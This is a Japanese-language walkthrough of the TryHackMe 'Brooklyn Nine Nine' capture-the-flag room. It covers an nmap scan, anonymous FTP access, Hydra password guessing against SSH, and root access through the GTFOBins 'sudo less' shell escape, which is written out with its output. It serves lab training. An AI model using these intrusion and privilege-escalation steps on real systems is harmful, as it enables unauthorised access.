

# Target [Brooklyn Nine Nine](https://tryhackme.com/room/brooklynninenine)

## ポートスキャン
nmapでポートスキャンを行う(以下は出力したファイルを表示している)
```
┌─[penguin@parrot]─[~/TryHackMe/BrooklynNineNine]
└──╼ $cat nmapscan 
# Nmap 7.94SVN scan initiated Tue Mar 25 12:58:42 2025 as: nmap -Pn -sV -oN nmapscan 10.10.150.169
Nmap scan report for 10.10.150.169
Host is up (0.30s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar 25 12:59:20 2025 -- 1 IP address (1 host up) scanned in 37.92 seconds
```

## ftpが空いているので、ログインしてみる
```
┌─[penguin@parrot]─[~/TryHackMe/BrooklynNineNine]
└──╼ $ftp 10.10.150.169
Connected to 10.10.150.169.
220 (vsFTPd 3.0.3)
Name (10.10.150.169:penguin): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||27838|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        114          4096 May 17  2020 .
drwxr-xr-x    2 0        114          4096 May 17  2020 ..
-rw-r--r--    1 0        0             119 May 17  2020 note_to_jake.txt
```
ログイン成功してディレクトリを確認すると、怪しげなファイルがあるので、ダウンロードして中身を確認してみる。

```
┌─[penguin@parrot]─[~/TryHackMe/BrooklynNineNine]
└──╼ $cat note_to_jake.txt 
From Amy,

Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine

```
内容として、amyからjakeへパスワードが弱いので、変更しろよという旨のテキストメッセージとなっている。  
そのため、jakeでssh接続できるのではないかと考えて、パスワード解析を行う。

## ユーザーパスワード解析
hydraを用いてパスワード解析を行うと、jakeのパスワードが判明した。  


## ユーザーフラグの調査
jakeでssh接続が成功したためフラグを調査する。  
homeディレクトリを確認すると、jakeの他にamyとholtがいるので、それぞれ確認してみると…  
holtの方にフラグを発見。  


## 管理者権限への昇格
ユーザーフラグが見つかったため、管理者権限への昇格を試みる。  
とりあえず、sudoで何ができそうか確認する。
```
jake@brookly_nine_nine:/home/holt$ sudo -l
Matching Defaults entries for jake on brookly_nine_nine:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /usr/bin/less
```
すると、/usr/bin/lessコマンドがノーパスワードで利用できることが判明。
そのため[GTFOBians](https://gtfobins.github.io/)でlessコマンドを検索。
```
sudo less /etc/profile
!/bin/sh
```
上記コマンドにより、権限昇格できそうなので、試してみる。
```
jake@brookly_nine_nine:/home/holt$ sudo less /etc/profile
# whoami
root
```

権限昇格に成功したので、/root配下にあるフラグファイルを確認して、終了。  

## 謎の内容
roomとしては上記でクリアだが、httpの画面に接続して、ソースコードを確認すると以下の文言が記載されていた。
```
Have you ever heard of steganography?
```


最初はsteghideコマンドなどを利用するのかと思ったが、パスワードが不明だったため、このまま放置。  
もしかするとこの画像を解析することで、何かわかったのかも？

